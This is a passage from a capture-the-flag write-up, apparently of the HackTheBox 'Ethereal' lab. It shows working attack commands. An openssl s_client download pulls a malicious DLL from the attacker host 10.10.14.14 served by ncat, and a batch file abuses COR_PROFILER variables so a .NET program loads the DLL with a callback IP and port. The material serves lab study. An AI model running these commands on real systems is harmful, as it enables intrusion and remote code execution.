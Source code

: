 ### Upload Beryllium

I’ll use [Beryllium.dll](https://github.com/attl4s/pruebas/blob/master/Beryllium.dll) from HackPlayers. I’ll serve it with `ncat` as follows:

```

ncat --ssl --send-only --ssl-key key.pem --ssl-cert cert.pem  -lvp 73 < Beryllium.dll

```

Now I’ll tell Ethereal to get it:

```

ethereal> quiet c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 > c:\windows\servicing\packages\df.dll

```

I get the connection on `ncat`:

```

root@kali# ncat --ssl --send-only --ssl-key key.pem --ssl-cert cert.pem  -lvp 73 < Beryllium.dll
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::73
Ncat: Listening on 0.0.0.0:73
Ncat: Connection from 10.10.10.106.
Ncat: Connection from 10.10.10.106:49713.
root@kali# 

```

### Upload bat File

I’ve got this `bery.bat`, which will set the parameters used in this technique and then run `tzsync`, a managed program:

```

set "COR_ENABLE_PROFILING=1"
set "COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}"
set "COR_PROFILER_PATH=C:\windows\servicing\packages\df.dll"
set "IP=10.10.14.14"
set "PORT=136"
tzsync

```

Now I’ll upload that as well:

```

ethereal> quiet c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 > c:\users\public\desktop\shortcuts\bery.bat

```
